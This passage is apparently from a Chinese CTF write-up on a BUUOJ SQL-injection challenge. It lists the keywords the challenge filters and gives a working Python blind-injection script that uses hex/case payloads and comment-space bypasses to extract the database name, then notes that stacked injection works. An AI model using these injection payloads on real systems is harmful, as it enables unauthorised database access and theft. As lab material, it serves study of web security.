 ![在这里插入图片描述](img/d3f594977a69e52d1288d2caef79fdcf.png)于是我们推断，select被过滤了，于是我们找到了fuzz的方法，有单引号且不报错的就是被过滤的关键词，经过测试发现下列关键词被过滤了。
`select updatexml extractvalue or and if ascii sleep substr , || &&`

经过测试我们发现如下规律，当语法错误时会报错，只要不包括过滤的关键词，而且没有语法错误就可以返回202，此时我们就可以利用报错来进行盲注，这也是一种思想，尽可能地利用现有的条件
直接贴出代码：

```
 import requests
import json

url = "http://b6056caa-c35b-4ba8-9e0c-646366ffcddd.node3.buuoj.cn/index.php?r=Login/Login"
database = ""
hex_database = ""
i = -1
while i > -10:
    for j in range(44,128):
        j = chr(j)
        k = j.encode('hex')
        username = "'^(case/**/hex(mid(database()/**/from/**/"+str(i)+"))/**/when/**/"+k+hex_database+"/**/then/**/1/**/else/**/abs(-9223372036854775808)/**/end)-- -"

        data = {                                    
            "username":username,
            "password":"1"
        }

        data = json.dumps(data)
        r = requests.post(url,data=data)

        if "202" in r.text:
            database = j + database                             
            hex_database = k + hex_database                     
            print database
            break
    i = i - 1 
```

这儿说明一下mysql中`''^10返回的就是10`，我试了其它其它的数字，好像就这个负数的绝对值报错，不知道咋回事~~
得到数据库的名字为ctf,但是过滤了select，or等，不知道如何下手了，然后测试了一下堆叠注入，没想到还真有~~，我们输入a’时，报错，但是输入a’;时却返回202，所以存在堆叠注入。
![在这里插入图片描述](img/ee976cfb3334527a5d2a47fdfe37036b.png)我们这儿就直接贴出payload：
